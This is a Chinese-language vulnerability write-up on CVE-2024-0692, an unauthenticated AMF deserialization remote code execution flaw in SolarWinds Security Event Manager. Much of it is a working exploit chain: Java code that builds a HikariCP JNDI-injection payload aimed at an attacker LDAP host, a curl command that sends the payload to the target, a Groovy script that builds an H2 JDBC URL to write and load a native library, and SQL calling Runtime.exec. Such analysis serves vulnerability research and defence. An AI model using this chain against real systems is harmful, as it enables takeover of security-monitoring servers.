# SolarWinds Security Event Manager AMF 反序列化 RCE (CVE-2024-0692) - 先知社区

SolarWinds Security Event Manager AMF 反序列化 RCE (CVE-2024-0692)

- - -

## 前言

前几天刷推看到 ZDI 发了 SolarWinds Security Event Manager AMF 反序列化 RCE 的通告，于是准备简单分析一下

[https://www.zerodayinitiative.com/advisories/ZDI-24-215/](https://www.zerodayinitiative.com/advisories/ZDI-24-215/)

[https://www.solarwinds.com/security-event-manager](https://www.solarwinds.com/security-event-manager)

首先说一下拿源码的流程

这个产品在官网就能下载到安装包，里面是 ova 格式的 Linux 虚拟机，需要手动导入 VMware

然后翻阅官方文档可以知道，产品本身提供了 SSH 的功能，但是 Shell 是一个受限的 cmcshell

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304191103-e3992102-da17-1.png)

appliance 菜单内可以执行 top 命令，观察发现这是一个用 Java 编写的应用

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304191156-0327af0c-da18-1.png)

cmcshell 本身没发现什么可以命令注入的地方，所以只能通过虚拟机的 vmdk 文件读取磁盘内容拿到源码

这里我用的是 DiskGenius, 经过查找发现源码位于 lem 分区的 contego 目录

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304191210-0bdbc566-da18-1.png)

最后全部复制出来就行

同时得注意 Java 版本为 17, 并且没有 javac (后面会提到)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304191231-18154014-da18-1.png)

## AMF 反序列化

AMF (Action Message Format) 反序列化基础知识

[https://codewhitesec.blogspot.com/2017/04/amf.html](https://codewhitesec.blogspot.com/2017/04/amf.html)

[https://wouter.coekaerts.be/2011/amf-arbitrary-code-execution](https://wouter.coekaerts.be/2011/amf-arbitrary-code-execution)

[https://www.mi1k7ea.com/2019/12/07/Java-AMF3反序列化漏洞/](https://www.mi1k7ea.com/2019/12/07/Java-AMF3%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/)

[https://blog.csdn.net/caiqiiqi/article/details/110629969](https://blog.csdn.net/caiqiiqi/article/details/110629969)

简单来说就是一种基于 setter/getter 的二进制序列化协议，其在反序列化的过程中会调用指定类的公共无参构造方法，然后通过 setter 恢复相关字段

另外在部分文章中会提到 AMF 只能序列化/反序列化实现 Serializable 接口的类，但根据我的实际测试发现也可以序列化/反序列化非 Serializable 的类

SolarWinds Security Event Manager 使用了 Apache Flex BlazeDS, 版本为 4.7.3

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304191242-1ed9bf2e-da18-1.png)

4.7.3 版本中官方默认禁用 AMF 反序列化，并且引入了 ClassDeserializationValidator 来控制能够被反序列化的类

[https://github.com/apache/flex-blazeds/blob/develop/RELEASE\_NOTES](https://github.com/apache/flex-blazeds/blob/develop/RELEASE_NOTES)

```plain
Starting with 4.7.3 BlazeDS Deserialization of XML is disabled completely per default
but can easily be enabled in your services-config.xml:

    <channels>
        <channel-definition id="amf" class="mx.messaging.channels.AMFChannel">
            <endpoint url="http://{server.name}:{server.port}/{context.root}/messagebroker/amf"
                      class="flex.messaging.endpoints.AMFEndpoint"/>
            <properties>
                <serialization>
                    <allow-xml>true</allow-xml>
                </serialization>
            </properties>
        </channel-definition>
    </channels>

Also we now enable the ClassDeserializationValidator per default to only allow
deserialization of whitelisted classes. BlazeDS internally comes with the following
whitelist:

    flex.messaging.io.amf.ASObject
    flex.messaging.io.amf.SerializedObject
    flex.messaging.io.ArrayCollection
    flex.messaging.io.ArrayList
    flex.messaging.messages.AcknowledgeMessage
    flex.messaging.messages.AcknowledgeMessageExt
    flex.messaging.messages.AsyncMessage
    flex.messaging.messages.AsyncMessageExt
    flex.messaging.messages.CommandMessage
    flex.messaging.messages.CommandMessageExt
    flex.messaging.messages.ErrorMessage
    flex.messaging.messages.HTTPMessage
    flex.messaging.messages.RemotingMessage
    flex.messaging.messages.SOAPMessage
    java.lang.Boolean
    java.lang.Byte
    java.lang.Character
    java.lang.Double
    java.lang.Float
    java.lang.Integer
    java.lang.Long
    java.lang.Object
    java.lang.Short
    java.lang.String
    java.util.ArrayList
    java.util.Date
    java.util.HashMap
    org.w3c.dom.Document

If you need to deserialize any other classes, be sure to register them in your
services-config.xml:

    <validators>
        <validator class="flex.messaging.validators.ClassDeserializationValidator">
            <properties>
                <allow-classes>
                    <class name="org.mycoolproject.*"/>
                    <class name="flex.messaging.messages.*"/>
                    <class name="flex.messaging.io.amf.ASObject"/>
                </allow-classes>
            </properties>
        </validator>
    </validators>

(Beware, by manually providing a whitelist the default whitelist is disabled)
```

相关配置位于 services-config.xml

对于 SolarWinds Security Event Manager, 这个文件位于 `contego/run/tomcat/webapps/ROOT/WEB-INF/flex/services-config.xml`

```plain
<?xml version="1.0" encoding="UTF-8"?>
<services-config>

    <services>
        <service-include file-path="remoting-config.xml" />
        <service-include file-path="proxy-config.xml" />
        <service-include file-path="messaging-config.xml" />
    </services>

    <security>
        <login-command class="com.solarwinds.lem.manager.flexui.login.LemFlexLoginCommand" server="Tomcat" />
        <security-constraint id="authenticated">
            <auth-method>Custom</auth-method>
            <roles>
            </roles>
        </security-constraint>
    </security>

    <channels>
        <!-- Non-Secure Non-polling AMF -->
        <channel-definition id="non-secure-non-polling-amf" class="mx.messaging.channels.AMFChannel">
            <endpoint url="http://{server.name}:8080/services/messagebroker/nonsecureamf" class="flex.messaging.endpoints.AMFEndpoint" />
            <properties>
                <add-no-cache-headers>false</add-no-cache-headers>
                <connect-timeout-seconds>120</connect-timeout-seconds>
                <login-after-disconnect>true</login-after-disconnect>
                <invalidate-session-on-disconnect>true</invalidate-session-on-disconnect>
                <serialization>
                    <allow-xml-external-entity-expansion>false</allow-xml-external-entity-expansion>
                    <allow-xml>true</allow-xml>
                </serialization>
            </properties>
        </channel-definition>

        <!-- None-Secure Streaming AMF -->
        <channel-definition id="non-secure-streaming-amf" class="mx.messaging.channels.StreamingAMFChannel">
            <endpoint url="http://{server.name}:8080/services/messagebroker/nonsecurestreamingamf" class="com.solarwinds.lem.flex.blazeds.ManagedStreamingAmfEndpoint" />
            <properties>
                <add-no-cache-headers>false</add-no-cache-headers>
                <connect-timeout-seconds>120</connect-timeout-seconds>
                <idle-timeout-minutes>0</idle-timeout-minutes>
                <server-to-client-heartbeat-millis>5000</server-to-client-heartbeat-millis>
                <invalidate-session-on-disconnect>true</invalidate-session-on-disconnect>
                <flex-client-outbound-queue-processor class="com.solarwinds.lem.flex.blazeds.ManagedBlazeDsOutboundQueueProcessor"></flex-client-outbound-queue-processor>
                <serialization>
                    <allow-xml-external-entity-expansion>false</allow-xml-external-entity-expansion>
                    <allow-xml>true</allow-xml>
                </serialization>
                <user-agent-settings>
                    <!-- Internet Explorer 11 -->
                    <user-agent match-on="Trident" kickstart-bytes="2048" max-persistent-connections-per-session="5"/>
                </user-agent-settings>
            </properties>
        </channel-definition>

        <!-- Secure Non-polling AMF -->
        <channel-definition id="secure-non-polling-amf" class="mx.messaging.channels.SecureAMFChannel">
            <endpoint url="https://{server.name}:8443/services/messagebroker/amf" class="flex.messaging.endpoints.SecureAMFEndpoint" />
            <properties>
                <add-no-cache-headers>false</add-no-cache-headers>
                <connect-timeout-seconds>120</connect-timeout-seconds>
                <login-after-disconnect>true</login-after-disconnect>
                <invalidate-session-on-disconnect>true</invalidate-session-on-disconnect>
                <serialization>
                    <allow-xml-external-entity-expansion>false</allow-xml-external-entity-expansion>
                    <allow-xml>true</allow-xml>
                </serialization>
            </properties>
        </channel-definition>

        <!-- Secure Streaming AMF -->
        <channel-definition id="secure-streaming-amf" class="mx.messaging.channels.SecureStreamingAMFChannel">
            <endpoint url="https://{server.name}:8443/services/messagebroker/streamingamf" class="com.solarwinds.lem.flex.blazeds.ManagedSecureStreamingAmfEndpoint" />
            <properties>
                <add-no-cache-headers>false</add-no-cache-headers>
                <connect-timeout-seconds>120</connect-timeout-seconds>
                <idle-timeout-minutes>0</idle-timeout-minutes>
                <invalidate-session-on-disconnect>true</invalidate-session-on-disconnect>
                <login-after-disconnect>true</login-after-disconnect>
                <server-to-client-heartbeat-millis>5000</server-to-client-heartbeat-millis>
                <flex-client-outbound-queue-processor class="com.solarwinds.lem.flex.blazeds.ManagedBlazeDsOutboundQueueProcessor"></flex-client-outbound-queue-processor>
                <serialization>
                    <allow-xml-external-entity-expansion>false</allow-xml-external-entity-expansion>
                    <allow-xml>true</allow-xml>
                </serialization>
                <user-agent-settings>
                    <!-- Internet Explorer 11 -->
                    <user-agent match-on="Trident" kickstart-bytes="2048" max-persistent-connections-per-session="5"/>
                </user-agent-settings>
            </properties>
        </channel-definition>
    </channels>

    <flex-client>
        <heartbeat-interval-millis>300000</heartbeat-interval-millis>
    </flex-client>

    <logging>
        <target class="flex.messaging.log.ConsoleTarget" level="WARN">
            <properties>
                <prefix>[BlazeDS] </prefix>
                <includeDate>true</includeDate>
                <includeTime>true</includeTime>
                <includeLevel>true</includeLevel>
                <includeCategory>true</includeCategory>
            </properties>
            <filters>
                <pattern>Endpoint.*</pattern>
                <pattern>Service.*</pattern>
                <pattern>Startup.*</pattern>
                <pattern>Client.*</pattern>
                <pattern>Message.*</pattern>
                <pattern>Protocol.*</pattern>
                <pattern>Security</pattern>
                <pattern>Timeout</pattern>
                <pattern>Configuration</pattern>
            </filters>
        </target>
    </logging>

    <system>
        <redeploy>
            <enabled>false</enabled>
        </redeploy>
    </system>

    <validators>
        <validator class="flex.messaging.validators.ClassDeserializationValidator">
            <properties>
                <allow-classes>
                    <class name=".*"/>
                </allow-classes>
            </properties>
        </validator>
    </validators>

</services-config>
```

根据上述 XML 配置可以知道

1.  处理 AMF 数据的两个 Endpoint (另外还有两个 8080 端口的但是无法访问)
    1.  `https://{server.name}:8443/services/messagebroker/amf`, 对应 `flex.messaging.endpoints.SecureAMFEndpoint`
    2.  `https://{server.name}:8443/services/messagebroker/streamingamf`, 对应 `com.solarwinds.lem.flex.blazeds.ManagedSecureStreamingAmfEndpoint`
2.  validator 标签的 allow-classes 属性被设置成 `.*`, 即允许任意类被反序列化

以 ManagedSecureStreamingAmfEndpoint 为例

其父类 `flex.messaging.endpoints.StreamingAMFEndpoint` 会在请求时创建 FilterChain (责任链模式), 其中包含 SerializationFilter

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304191256-274d7006-da18-1.png)

`flex.messaging.endpoints.amf.SerializationFilter#invoke`

代码比较长，仅截取部分内容

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304191310-2f7bb292-da18-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304191321-35b4e534-da18-1.png)

这是一个非常明显的反序列化入口点，没有任何鉴权措施，直接 POST 数据并设置 Content-Type 为 `application/amf` 就能触发反序列化

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304191335-3e190bec-da18-1.png)

难点在于后续 Gadget 的构造

## HikariCP JNDI 注入

jar 依赖

```plain
$ tree lib
lib
├── HikariCP-java7-2.4.13.jar
├── asn-one-0.6.0.jar
├── axis-1.4.jar
├── axis-jaxrpc-1.4.jar
├── axis-wsdl4j-1.5.1.jar
├── bcpkix-jdk18on-1.76.jar
├── bcprov-jdk18on-1.76.jar
├── bcutil-jdk18on-1.76.jar
├── c3p0-0.9.5.4.jar
├── classmate-1.5.1.jar
├── commons-beanutils-1.9.4.jar
├── commons-cli-1.5.0.jar
├── commons-codec-1.15.jar
├── commons-collections4-4.4.jar
├── commons-compress-1.21.jar
├── commons-csv-1.9.0.jar
├── commons-dbutils-1.7.jar
├── commons-digester-2.1.jar
├── commons-discovery-0.2.jar
├── commons-exec-1.3.jar
├── commons-fileupload-1.5.jar
├── commons-httpclient-3.1.jar
├── commons-io-2.11.0.jar
├── commons-lang3-3.12.0.jar
├── commons-text-1.10.0.jar
├── ecj-3.21.0.jar
├── eddsa-0.3.0.jar
├── flex-messaging-common-4.7.3.jar
├── flex-messaging-core-4.7.3.jar
├── flex-messaging-proxy-4.7.3.jar
├── flex-messaging-remoting-4.7.3.jar
├── gen2-license-client-1.1.5.jar
├── guava-32.1.2-jre.jar
├── h2-2.1.214.jar
├── hibernate-validator-6.2.5.Final.jar
├── httpclient-4.5.13.jar
├── httpcore-4.4.14.jar
├── istack-commons-runtime-3.0.12.jar
├── jackson-annotations-2.15.2.jar
├── jackson-core-2.15.2.jar
├── jackson-databind-2.15.2.jar
├── jackson-datatype-jsr310-2.11.2.jar
├── jakarta-regexp-1.4.jar
├── jakarta.activation-1.2.2.jar
├── jakarta.activation-api-1.2.2.jar
├── jakarta.mail-1.6.7.jar
├── jakarta.validation-api-2.0.2.jar
├── jakarta.xml.bind-api-2.3.3.jar
├── jakarta.xml.soap-api-1.4.2.jar
├── jasperreports-6.20.5.jar
├── jasperreports-chart-themes-6.20.5.jar
├── jasperreports-fonts-6.20.5.jar
├── jasperreports-functions-6.20.5.jar
├── javax.annotation-api-1.3.2.jar
├── jaxb-runtime-2.3.6.jar
├── jaxb2-basics-runtime-0.12.0.jar
├── jboss-logging-3.4.1.Final.jar
├── jcl-over-slf4j-1.7.36.jar
├── jcommon-1.0.23.jar
├── jfreechart-1.0.19.jar
├── jna-5.12.1.jar
├── jna-platform-5.12.1.jar
├── jsch-0.1.54.jar
├── jtidy-4aug2000r7-dev-hudson-1.jar
├── jug-1.0.jar
├── jul-to-slf4j-1.7.36.jar
├── lem_actions.jar
├── lem_actors.jar
├── lem_agent.jar
├── lem_alerts.jar
├── lem_appliance-utils.jar
├── lem_client-messaging-api.jar
├── lem_commons.jar
├── lem_communication-config-agent.jar
├── lem_communication.jar
├── lem_configuration-manager.jar
├── lem_connector-core.jar
├── lem_connector-profile-templates.jar
├── lem_connector-updates.jar
├── lem_core-api.jar
├── lem_core.jar
├── lem_dashboards.jar
├── lem_data-signing.jar
├── lem_diagnostics.jar
├── lem_encryptfs-db.jar
├── lem_encryptfs.jar
├── lem_event-console-ui.jar
├── lem_event-console.jar
├── lem_expression-tree.jar
├── lem_fim-configuration.jar
├── lem_flex-services.jar
├── lem_flex-ui-module.jar
├── lem_groups.jar
├── lem_keyValue-store.jar
├── lem_ldap-service.jar
├── lem_ldap-utils.jar
├── lem_license-api.jar
├── lem_license-impl.jar
├── lem_liru.jar
├── lem_lucius-binary.jar
├── lem_lucius.jar
├── lem_mail.jar
├── lem_manager-agent-upgrade.jar
├── lem_manager-api.jar
├── lem_manager-connector-handler.jar
├── lem_manager-connector-settings.jar
├── lem_manager-impl.jar
├── lem_manager-old.jar
├── lem_manager.jar
├── lem_module-base.jar
├── lem_module-manager-client.jar
├── lem_module-manager-server.jar
├── lem_module-manager.jar
├── lem_module-storage.jar
├── lem_monitor-filter-statistics.jar
├── lem_monitoring.jar
├── lem_package-repository.jar
├── lem_phonehome.jar
├── lem_quartz-scheduler.jar
├── lem_rawsearch-manager.jar
├── lem_rawsearch-module.jar
├── lem_report.jar
├── lem_rules.jar
├── lem_search.jar
├── lem_sftp.jar
├── lem_solr-commons.jar
├── lem_solr.jar
├── lem_swip-mappers.jar
├── lem_swip.jar
├── lem_swis-rest-api.jar
├── lem_swis.jar
├── lem_tags.jar
├── lem_threat-feeds.jar
├── lem_tls-restriction.jar
├── lem_tns_apache-solr-core.jar
├── lem_tomcat-helper.jar
├── lem_tools.jar
├── lem_user-module-demo.jar
├── lem_user-module-ldap.jar
├── lem_user-module-legacy.jar
├── lem_user-module-local.jar
├── lem_user-module-sso.jar
├── lem_user-module-ui.jar
├── lem_user-module.jar
├── lem_user-repository.jar
├── lem_util.jar
├── lem_web-module.jar
├── lem_web-ui-module.jar
├── lem_websocket-client-messaging.jar
├── logback-classic-1.2.11.jar
├── logback-core-1.2.11.jar
├── lucene-analyzers-2.9.3.jar
├── lucene-analyzers-common-4.1.0.jar
├── lucene-codecs-4.1.0.jar
├── lucene-core-2.9.3.jar
├── lucene-core-4.1.0.jar
├── lucene-facet-4.1.0.jar
├── lucene-highlighter-2.9.3.jar
├── lucene-memory-2.9.3.jar
├── lucene-misc-2.9.3.jar
├── lucene-queries-2.9.3.jar
├── lucene-queries-4.1.0.jar
├── lucene-queryparser-4.1.0.jar
├── lucene-sandbox-4.1.0.jar
├── lucene-snowball-2.9.3.jar
├── lucene-spellchecker-2.9.3.jar
├── mssql-jdbc-7.2.1.jre8.jar
├── mybatis-3.5.11.jar
├── mybatis-spring-2.0.7.jar
├── netty-buffer-4.1.96.Final.jar
├── netty-codec-4.1.96.Final.jar
├── netty-common-4.1.96.Final.jar
├── netty-handler-4.1.96.Final.jar
├── netty-resolver-4.1.96.Final.jar
├── netty-transport-4.1.96.Final.jar
├── netty-transport-native-unix-common-4.1.96.Final.jar
├── network-error-handler-0.3.1.jar
├── o365-log-client-1.0.0.jar
├── ojdbc8-12.2.0.1.jar
├── openpdf-1.3.30.jaspersoft.2.jar
├── oro-2.0.8.jar
├── postgresql-42.6.0.jar
├── quartz-2.3.2.jar
├── saaj-impl-1.5.3.jar
├── slf4j-api-1.7.36.jar
├── snmp4j-3.5.1.jar
├── solr-commons-csv-1.4.1.jar
├── solr-solrj-1.4.1.jar
├── spring-aop-5.3.29.jar
├── spring-beans-5.3.29.jar
├── spring-context-5.3.29.jar
├── spring-context-support-5.3.29.jar
├── spring-core-5.3.29.jar
├── spring-expression-5.3.29.jar
├── spring-jcl-5.3.29.jar
├── spring-jdbc-5.3.29.jar
├── spring-ldap-core-2.4.1.jar
├── spring-messaging-5.3.29.jar
├── spring-oxm-5.3.29.jar
├── spring-security-config-5.8.5.jar
├── spring-security-core-5.8.5.jar
├── spring-security-crypto-5.8.5.jar
├── spring-security-kerberos-core-1.0.1.RELEASE.jar
├── spring-security-kerberos-web-1.0.1.RELEASE.jar
├── spring-security-messaging-5.8.5.jar
├── spring-security-web-5.8.5.jar
├── spring-tx-5.3.29.jar
├── spring-web-5.3.29.jar
├── spring-webmvc-5.3.29.jar
├── spring-websocket-5.3.29.jar
├── spring-ws-core-3.1.3.jar
├── spring-xml-3.1.3.jar
├── sshfactory-1.0.jar
├── sshj-0.36.0.jar
├── sslcontext-kickstart-7.4.9.jar
├── stax-ex-1.8.3.jar
├── swagger-annotations-1.6.6.jar
├── swip-2.0.2.jar
├── syslog-java-client-1.1.6-swi.1.jar
├── tomcat-api-8.5.93.jar
├── tomcat-catalina-8.5.93.jar
├── tomcat-coyote-8.5.93.jar
├── tomcat-el-api-8.5.93.jar
├── tomcat-jasper-el-8.5.93.jar
├── tomcat-jaspic-api-8.5.93.jar
├── tomcat-jni-8.5.93.jar
├── tomcat-juli-8.5.93.jar
├── tomcat-servlet-api-8.5.93.jar
├── tomcat-util-8.5.93.jar
├── tomcat-util-scan-8.5.93.jar
├── tomcat-websocket-8.5.93.jar
├── tomcat-websocket-api-8.5.93.jar
├── txw2-2.3.6.jar
└── xstream-1.4.20.jar

1 directory, 234 files
```

目标环境为 Java 17, 不存在 TemplatesImpl, 并且 JdbcRowSetImpl 会因为 Java 模块化的原因导致无法访问

虽然存在 commons-beanutils 和 commons-collections4, 但是 AMF 反序列化的流程是调用公共无参构造函数 + setter 赋值，入口点并不是 readObject, 也无法使用

高版本 JDK 反序列化的利用思路大致都是通过 JDBC 攻击实现 RCE, 因此可以寻找一些直接能够发起 JDBC 连接的 gadget, 或者先获取 JNDI 注入，然后通过 JDNI 发起 JDBC 连接

注意到环境存在 HikariCP 依赖，容易得到 `com.zaxxer.hikari.HikariConfig` 这个类

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304191346-44ceed9e-da18-1.png)

经典的 JNDI 注入

```plain
package com.example;

import com.zaxxer.hikari.HikariConfig;
import flex.messaging.io.SerializationContext;
import flex.messaging.io.amf.*;
import flex.messaging.validators.ClassDeserializationValidator;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;

public class Demo {
    public static void main(String[] args) throws Exception {

        HikariConfig config = new HikariConfig();
        Field f = HikariConfig.class.getDeclaredField("metricRegistry");
        f.setAccessible(true);
        f.set(config, "ldap://100.109.34.110:1389/x");

        byte[] data = serialize(config);
        deserialize(data);
        Files.write(Paths.get("/Users/exp10it/payload.amf"), data);
    }

    public static byte[] serialize(Object data) throws Exception {
        MessageBody body = new MessageBody();
        body.setData(data);
        ActionMessage message = new ActionMessage();
        message.addBody(body);
        ByteArrayOutputStream out = new ByteArrayOutputStream();
        AmfMessageSerializer serializer = new AmfMessageSerializer();
        serializer.initialize(SerializationContext.getSerializationContext(), out, null);
        serializer.writeMessage(message);
        return out.toByteArray();
    }

    public static ActionMessage deserialize(byte[] amf) throws Exception {
        ByteArrayInputStream in = new ByteArrayInputStream(amf);
        AmfMessageDeserializer deserializer = new AmfMessageDeserializer();
        SerializationContext context = SerializationContext.getSerializationContext();
        ClassDeserializationValidator validator = new ClassDeserializationValidator();
        validator.addAllowClassPattern(".*");
        context.setDeserializationValidator(validator);
        deserializer.initialize(context, in, null);
        ActionMessage actionMessage = new ActionMessage();
        deserializer.readMessage(actionMessage, new ActionContext());
        return actionMessage;
    }
}
```

将生成的 payload.amf 发送给目标服务器，即可收到 JNDI 请求

```plain
curl https://192.168.30.131:8443/services/messagebroker/streamingamf -k -H "Content-Type: application/amf" --data-binary @payload.amf --output -
```

## 受限制的 JDBC H2 RCE

### 利用思路

后续原本想通过 JNDI 注入打 Java 原生反序列化，但是没找到合适的 gadget

commons-collections4 为最新的 4.4 版本，这个版本使得包括 InvokerTransformer 在内的一系列 Transformer 都不再实现 Serializable 接口，无法被反序列化

commons-beanutils 虽然可以利用，但没有了 TemplatesImpl, 一时半会没找到其它的 getter gadget

于是转向 JDBC, 观察到环境存在 H2 依赖，因此可以尝试 H2 RCE

首先需要将 JNDI 转换成 JDBC 攻击，参考：[https://tttang.com/archive/1405/](https://tttang.com/archive/1405/)

同理，在 HikariCP 中也存在类似的实现了 ObjectFactory 接口的类，即 `com.zaxxer.hikari.HikariJNDIFactory`, 其 getObjectInstance 方法会发起 JDBC 连接

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304191451-6be36dba-da18-1.png)

[https://github.com/X1r0z/JNDIMap/blob/main/src/main/java/map/jndi/controller/database/HikariCPController.java#L21](https://github.com/X1r0z/JNDIMap/blob/main/src/main/java/map/jndi/controller/database/HikariCPController.java#L21)

```plain
Reference ref = new Reference("javax.sql.DataSource", "com.zaxxer.hikari.HikariJNDIFactory", null);
ref.add(new StringRefAddr("driverClassName", "org.h2.Driver"))
ref.add(new StringRefAddr("jdbcUrl", url))
return ref;
```

然后是 H2 数据库 RCE, 有三种方法：CREATE ALIAS + Java/Groovy, CREATE TRIGGER + JavaScript

[https://paper.seebug.org/1832/](https://paper.seebug.org/1832/)

不过在目标环境下都不能利用成功

CREATE TRIGGER + JavaScript 会提示语法错误

这是因为 Java 自带的 Nashorn JavaScript 引擎已经在 Java 15 往后被删除，而目标环境使用的是 Java 17

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304191501-7198f630-da18-1.png)

环境不存在 Groovy 依赖，因此 CREATE ALIAS + Groovy 也会报错

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304191509-769bf18c-da18-1.png)

CREATE ALIAS + Java 同样报错，这个就比较有意思了

在开头提到过，虚拟机内置的 Java 17 没有 javac 命令，因此就不能通过 CREATE ALIAS 语句动态编译 Java 源代码

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304191520-7d11a5fc-da18-1.png)

但实际上翻阅文档可以知道，H2 的 CREATE ALIAS 仍然可以调用位于 classpath 内的某个公共类的公共静态方法，这点与 Oracle 类似

[https://h2database.com/html/features.html](https://h2database.com/html/features.html)

[https://h2database.com/html/datatypes.html](https://h2database.com/html/datatypes.html)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304191530-82a0a3c4-da18-1.png)

直接给出我的两种利用思路：

写文件 + System.load

1.  利用 File.createTempFile 创建临时文件
2.  利用 commons-io 的 FileUtils 分块写文件
3.  利用 commons-beanutils 的 MethodUtils 反射调用实例/静态方法
4.  利用 System.load 加载动态链接库

ClassPathXmlApplicationContext

1.  利用 commons-beanutils 的 ConstructorUtils 实例化 ClassPathXmlApplicationContext
2.  XML 内调用 ProcessBuilder.start 执行命令

### File Write + System.load

payload (Groovy)

```plain
import javax.naming.Reference
import javax.naming.StringRefAddr

// SolarWinds Security Event Manager AMF Deserialization RCE (CVE-2024-0692)
// file write + System.load

def prefix = 'test'
def lib_path = '/Users/exp10it/exp.so'

def list = []

// drop the previous alias if exists
list << "DROP ALIAS IF EXISTS CREATE_FILE"
list << "DROP ALIAS IF EXISTS WRITE_FILE"
list << "DROP ALIAS IF EXISTS INVOKE_METHOD"
list << "DROP ALIAS IF EXISTS INVOKE_STATIC_METHOD"
list << "DROP ALIAS IF EXISTS CLASS_FOR_NAME"

// alias some external Java methods
list << "CREATE ALIAS CREATE_FILE FOR 'java.io.File.createTempFile(java.lang.String, java.lang.String)'"
list << "CREATE ALIAS WRITE_FILE FOR 'org.apache.commons.io.FileUtils.writeByteArrayToFile(java.io.File, byte[], boolean)'"
list << "CREATE ALIAS INVOKE_METHOD FOR 'org.apache.commons.beanutils.MethodUtils.invokeMethod(java.lang.Object, java.lang.String, java.lang.Object)'"
list << "CREATE ALIAS INVOKE_STATIC_METHOD FOR 'org.apache.commons.beanutils.MethodUtils.invokeExactStaticMethod(java.lang.Class, java.lang.String, java.lang.Object)'"
list << "CREATE ALIAS CLASS_FOR_NAME FOR 'java.lang.Class.forName(java.lang.String)'"

// use java.io.File.createTempFile() to create a blank file with `.so` extension
list << "SET @file=CREATE_FILE('$prefix', '.so')"

// read native library file and encode it to hex
def content = new File(lib_path).bytes.encodeHex().toString()
// split it into several chunks to avoid SQL length limit
def data = content.toList().collate(500)*.join()

// write the chunks to the file (append mode)
for (d in data) {
   list << "CALL WRITE_FILE(@file, X'$d', TRUE)"
}

// invoke file.getAbsolutePath() to get the absolute path of the temp file
list << "SET @path=INVOKE_METHOD(@file, 'getAbsolutePath', NULL)"
// invoke java.lang.System.load() to load the native library
list << "SET @clazz=CLASS_FOR_NAME('java.lang.System')"
list << "CALL INVOKE_STATIC_METHOD(@clazz, 'load', @path)"

// use INIT property to execute multi SQL statements, and each statement must be separated by `\;`
def url = "jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=${list.join('\\;')}\\;"

def ref = new Reference("javax.sql.DataSource", "com.zaxxer.hikari.HikariJNDIFactory", null)
ref.add(new StringRefAddr("driverClassName", "org.h2.Driver"));
ref.add(new StringRefAddr("jdbcUrl", url));

return ref
```

这里有几个注意点

首先因为自 Java 9 引入的模块化机制，不能直接使用 `com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename` 写文件，因此需要找到一个来自第三方依赖的可以写文件的静态方法

`org.apache.commons.io.FileUtils#writeByteArrayToFile(java.io.File, byte[], boolean)`

```plain
public static void writeByteArrayToFile(File file, byte[] data, boolean append) throws IOException {
    writeByteArrayToFile(file, data, 0, data.length, append);
}
```

但是这个方法需要一个 File 对象，那么就得接着找能够返回 File 对象的静态方法

`java.io.File#createTempFile(java.lang.String, java.lang.String, java.io.File)`

```plain
public static File createTempFile(String prefix, String suffix,
                                  File directory)
    throws IOException
{
    if (prefix.length() < 3) {
        throw new IllegalArgumentException("Prefix string \"" + prefix +
            "\" too short: length must be at least 3");
    }
    if (suffix == null)
        suffix = ".tmp";

    File tmpdir = (directory != null) ? directory
                                      : TempDirectory.location();
    @SuppressWarnings("removal")
    SecurityManager sm = System.getSecurityManager();
    File f;
    do {
        f = TempDirectory.generateFile(prefix, suffix, tmpdir);

        if (sm != null) {
            try {
                sm.checkWrite(f.getPath());
            } catch (SecurityException se) {
                // don't reveal temporary directory location
                if (directory == null)
                    throw new SecurityException("Unable to create temporary file");
                throw se;
            }
        }
    } while (fs.hasBooleanAttributes(f, FileSystem.BA_EXISTS));

    if (!fs.createFileExclusively(f.getPath()))
        throw new IOException("Unable to create temporary file");

    return f;
}
```

然后 CREATE ALIAS 本身只能调用静态方法，限制太多，需要找到一个能够调用实例方法的静态方法 (用于后续调用 getAbsolutePath 以获取 File 对象的文件路径)

`org.apache.commons.beanutils.MethodUtils#invokeMethod(java.lang.Object, java.lang.String, java.lang.Object)`

`org.apache.commons.beanutils.MethodUtils#invokeStaticMethod(java.lang.Class<?>, java.lang.String, java.lang.Object)`

```plain
public static Object invokeMethod(Object object, String methodName, Object arg) throws NoSuchMethodException, IllegalAccessException, InvocationTargetException {
    Object[] args = toArray(arg);
    return invokeMethod(object, methodName, args);
}

public static Object invokeStaticMethod(Class<?> objectClass, String methodName, Object arg) throws NoSuchMethodException, IllegalAccessException, InvocationTargetException {
    Object[] args = toArray(arg);
    return invokeStaticMethod(objectClass, methodName, args);
}
```

到这里肯定会有一个问题，既然能够调用实例方法，那么为什么不直接 `java.lang.Runtime.getRuntime().exec(cmd)` ?

众所周知，如果某个数据库支持调用外部方法，那么就一定存在数据库类型与外部类型的映射

在 H2 中，Java 的 java.lang.Object 类型对应数据库的 `JAVA_OBJECT` 类型

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304191544-8b5f8e8a-da18-1.png)

`JAVA_OBJECT` 对应的 Java 对象必须是可序列化的 (Serializable)

假如要执行 `java.lang.Runtime.getRuntime().exec(cmd)`, SQL 语句如下

```plain
CREATE ALIAS INVOKE_STATIC_METHOD FOR '...'
CREATE ALIAS INVOKE_METHOD FOR '...'
CREATE ALIAS CLASS_FOR_NAME FOR '...'

SET @clazz=CLASS_FOR_NAME('java.lang.Runtime')
SET @runtime=INVOKE_STATIC_METHOD(@clazz, 'getRuntime', NULL)
CALL INVOKE_METHOD(@runtime, 'exec', 'open -a Calculator')
```

